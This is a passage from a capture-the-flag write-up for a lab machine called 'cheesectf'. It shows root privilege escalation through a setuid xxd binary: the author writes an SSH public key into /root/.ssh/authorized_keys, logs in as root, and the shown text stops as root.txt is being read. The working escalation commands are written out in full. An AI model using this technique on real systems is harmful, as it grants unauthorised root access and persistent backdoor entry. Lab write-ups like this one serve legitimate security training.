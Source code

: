 ```
systemctl status exploit.timer
\u25cf exploit.timer - Exploit Timer
     Loaded: loaded (/etc/systemd/system/exploit.timer; disabled; vendor preset>
     Active: active (elapsed) since Thu 2024-11-21 06:23:04 UTC; 12s ago
    Trigger: n/a
   Triggers: \u25cf exploit.service
comte@cheesectf:~$ ls -la /opt
total 28
drwxr-xr-x  2 root root  4096 Nov 21 06:23 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Nov 21 06:23 xxd
```
On GTFObins we can find, that xxd apply us to write files
Let's try it out
```
comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBhQnMopCMma7F2J21dOdUD87WyE2zG3ngsKrOwpg8fU root@ip-10-10-214-126' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```
And login with root
```
root@ip-10-10-214-126:~# ssh -i id_ed25519 root@10.10.204.70
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 21 Nov 2024 06:25:16 AM UTC

  System load:  0.1                Processes:             149
  Usage of /:   31.3% of 18.53GB   Users logged in:       0
  Memory usage: 15%                IPv4 address for ens5: 10.10.204.70
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

47 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Apr  4 17:21:43 2024
root@cheesectf:~# ls
root.txt  snap
root@cheesectf:~# cat root.txt
```